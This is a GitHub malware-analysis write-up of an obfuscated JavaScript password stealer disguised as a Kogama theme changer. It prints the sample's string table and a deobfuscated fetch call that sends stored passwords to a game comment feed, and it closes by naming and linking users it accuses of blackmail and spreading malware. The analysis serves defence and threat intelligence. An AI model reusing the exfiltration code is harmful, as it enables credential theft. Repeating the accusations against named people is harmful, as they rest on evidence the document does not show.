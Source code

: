 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.


⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

 💚 Credits to ***Amine*** for helping me realise that no more current leads exist.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json)
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json) the only accounts that have posted any comments under this specific Object are ~~GameCodeMaster~~ and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
~~Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.~~

*~~What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
Due to this issue - figuring out who's behind the script is currently impossible.~~

It appears that the usual feed_id URL for many cases works like ``feed/profile_id/`` - but since this profile has been deleted a longer while ago, there's absolutely no way to find more as such things provide no posterID. This lead is a dead trope.

![image](https://github.com/user-attachments/assets/50b0b399-baad-4b8b-b0e1-7dbb30eeb70f)

> [**This is what happens when you execute the script**](https://youtu.be/cgtRLFCTV40 )


## Conclusion & Recommendations

### Summary of Findings
1. **Malicious Intent Confirmed**  
   The script is definitively a credential stealer masquerading as a theme utility, with:
   - Password harvesting via forced re-authentication
   - Data exfiltration to a public comment feed
   - Deliberate obfuscation to evade detection

2. **Attack Infrastructure**  
   - Utilizes Kogama's legitimate API as C2 channel
   - Targets: `https://www.kogama.com/api/feed/31872096/comment/`
   - Persistence: Stored credentials in `localStorage` under key `'poop'`

3. **Attribution Challenges**  
   - Only two affected accounts detected ~~GameCodeMaster~~ and [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/))
   - Possible scenarios:
     * Attacker testing their own malware
     * Compromised naive accounts
     * False flag operation

### Mitigation Strategies
| Action | Implementation |
|--------|----------------|
| Credential Rotation | All potentially exposed users should change passwords |
| API Monitoring | Kogama should investigate abnormal comment patterns on feed #31872096 |
| Client Protection | Block execution of scripts from untrusted paste sites |

### Future Research Directions
- **Feed Origin Analysis**: Continue hunting for the parent feed object
- **Pattern Correlation**: Compare with other Kogama-targeting malware
- **Attacker TTPs**: Document tactics for threat intelligence sharing

### Community Call-to-Action
Help expand this analysis by:
1. Reporting additional affected accounts via Issues
2. Contributing YARA rules for detection
3. Sharing related samples in the wild

---

# FINAL INVESTIGATION RESULTS

After thorough analysis, it has been determined that the initial hypothesis regarding GameCodeMaster being the threat actor was incorrect. In reality, GameCodeMaster was among three individuals who were coerced through blackmail into developing malicious scripts under the direction of an entity known as 'Inversion'.

Two additional parties involved in this operation, who engaged in harassment and email spamming targeting the victims, have been identified as 'zinxi' and 'g0d_b3rn13'.

> ![Evidence 1](https://github.com/user-attachments/assets/9f92350e-091d-4038-ae28-6f00e670ddf5)
> ![Evidence 2](https://github.com/user-attachments/assets/4083e999-6c48-4bee-91dc-d2c6eaa8c4bc)

## IDENTIFIED THREAT ACTOR
**Primary Actor**: [__ChiefPuddle/Inversion__](https://www.kogama.com/profile/670201468/)  

**Known Alternate Accounts**:  
- [__Asood Moohammed243__](https://www.kogama.com/profile/670339973/)

## ADDITIONAL FINDINGS
The primary threat actor has been actively distributing password-stealer malware through comments on the profile of '[G0D_B3RN13](https://www.kogama.com/profile/669867874/)'.

> ![Malware Distribution Evidence](https://github.com/user-attachments/assets/d009bf9d-c8cf-4da1-8c85-5e248c954596)


**Due to privacy reasons, I'm unable to provide more screenshots.**
